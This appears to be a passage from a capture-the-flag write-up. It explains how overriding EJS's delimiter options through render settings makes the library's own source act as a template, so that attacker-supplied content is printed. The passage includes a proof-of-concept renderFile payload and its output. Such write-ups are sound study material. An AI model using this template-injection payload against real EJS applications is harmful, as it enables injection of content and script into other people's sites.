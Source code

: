 The solution is to use EJS options `openDelimiter`, `closeDelimiter`, and `delimiter` to let EJS parse the template in different ways.

Because in EJS, `<%=` can output the content followed by it, and `<%-` can output unescaped content. So my initial idea was to find a string that matches this pattern, but I only found half of it in the end. I could create `<script>`, but the attribute content would be encoded. I also found a valid way to generate JavaScript. In short, I couldn't solve it in the end.

After the competition, when I looked at other people's solutions, I realized that I forgot that this question calls node.js to output. The author's solution is to set debug to true, which allows EJS to output src, and src will include the filename. Then you can use the property of the filename object to pass in any content.

Alternatively, you can directly put `console.log(src)` into the template.

For example, there is a piece of text as follows:

``` js
  if (opts.debug) {
    console.log(src);
  }
  if (opts.compileDebug && opts.filename) {
    src = src + "\n//# sourceURL=" + sanitizedFilename + "\n";
  }
  // other codes
```

After doing this:

``` js
ejs.renderFile('test', {
  'src': {
    helllo: 'world'
  },
  settings: {
    'view options': {
      delimiter: ' ',
      openDelimiter: 'if (opts.debug)',
      closeDelimiter: " if (opts.compileDebug && opts.filename)"
    }
  }
}).then(r => console.log(r));
```

The output will be:

```
{ helllo: 'world' }
   {
    src = src + "\n//# sourceURL=" + sanitizedFilename + "\n";
  }
  // other codes
```

The reason for this is that after changing the delimiter, the above text is equivalent to:

``` js
<% {
    console.log(src);
  } %> {
    src = src + "\n//# sourceURL=" + sanitizedFilename + "\n";
  }
  // other codes
```
